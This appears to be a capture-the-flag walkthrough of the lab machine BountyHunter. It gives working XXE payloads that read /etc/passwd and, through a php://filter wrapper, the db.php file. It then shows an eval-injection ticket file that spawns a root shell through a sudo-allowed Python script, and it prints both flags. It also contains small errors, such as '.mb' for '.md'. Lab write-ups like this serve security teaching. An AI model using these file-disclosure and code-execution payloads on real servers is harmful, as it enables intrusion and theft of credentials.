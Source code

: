 First what we need to do is RECON, turn on the nmap and check what's running on the server.
But nothing specially working on this server, only HTTP and SSH.
```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV 10.10.11.100
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 12:49 EDT
Nmap scan report for 10.10.11.100
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I go to website and i focused on CONTACT US, but this don't working, let's make some dir search.
I tryed ```gobuster dir -w /usr/share/wordlist/dirb/common.txt -u http://10.10.11.100/``` but i can't find anything intresting. But when i try also this command but add -x php i got more intresting directory's

```
/.php                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 25169]
/index.php            (Status: 200) [Size: 25169]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/portal.php           (Status: 200) [Size: 125]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/server-status        (Status: 403) [Size: 277]
```

We can see above 2 intresting directorys, portal.php and db.php. Let's check this out.
When i go into this directory i saw this:

![obraz](https://github.com/Anogota/BountyHunter/assets/143951834/a356efbb-905f-404f-82b9-d52e242e21c4)

I tested Bounty Report System - Beta, intercept the traffic with burp.
I got something intresting.

![obraz](https://github.com/Anogota/BountyHunter/assets/143951834/7e8846fc-433e-46dd-9460-f75099d89670)
For first i have no idea what can be this, but i used the cyberchef and know this look's better.

![obraz](https://github.com/Anogota/BountyHunter/assets/143951834/681ae942-6469-4f3b-a9d8-bbbd488b4107)

And now we know there can bee some XXE injection. First we need to check cat the /etc/passwd.
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>123</title>
		<cwe>123</cwe>
		<cvss>123</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```
By this XXE we can execute /etc/passwd and got this:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
There is many user, but only one look's intresting development, let's save this user for late.
When we do dir search, we find db.php, maybe some how we can see what's in this file.
If u have some expirence, you can know where can be this file, but if u don't have any i recomend to run feroxbuster by this command: feroxbuster --url http://10.10.11.100  you can find there a directory. /var/www/html/db.php.
I insert 
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[ <!ENTITY xxe SYSTEM "file:///var/www/html/db.php"> ]>
		<bugreport>
		<title>123</title>
		<cwe>123</cwe>
		<cvss>123</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```
But i don't get a request what inside there, let's google something about it. I got what i want. ```php://filter/read=conver.base64-encode/resource=/etc/passwd```
```
Here's the payload
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>123</title>
<cwe>123</cwe>
<cvss>123</cvss>
<reward>&xxe;</reward>
</bugreport>
```

![obraz](https://github.com/Anogota/BountyHunter/assets/143951834/94d0b26a-6f1f-47d3-8b55-1f25b68bfa53)

We need to encode this base64

![obraz](https://github.com/Anogota/BountyHunter/assets/143951834/cd56c7a6-7091-45c7-80a0-e0ca86d728a5)

Now need to log in into SSH development@10.10.11.100 ```development@bountyhunter:~$``` Now we need to cat user.txt
```d2010ca95d4ae6dd293479c2611d7579```
The next is sudo -l to check what kind of program/scripts we can run with sudo rights ```(root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py```
There is some intresting scripts 
```
def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
There is exploitable function "eval" 
```
 if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False
```
Now we need to write some code for escalate this function to root below is code, remember to save it with extenstion .mb
```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**11+eval('11+__import__("os").system("bash")')
```
And we got the root:
```
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/f.md
Destination: 
root@bountyhunter:/tmp# 
```
```
root@bountyhunter:/tmp# cat /root/root.txt
ea45f230bc63da49c510086169da5c3f
```

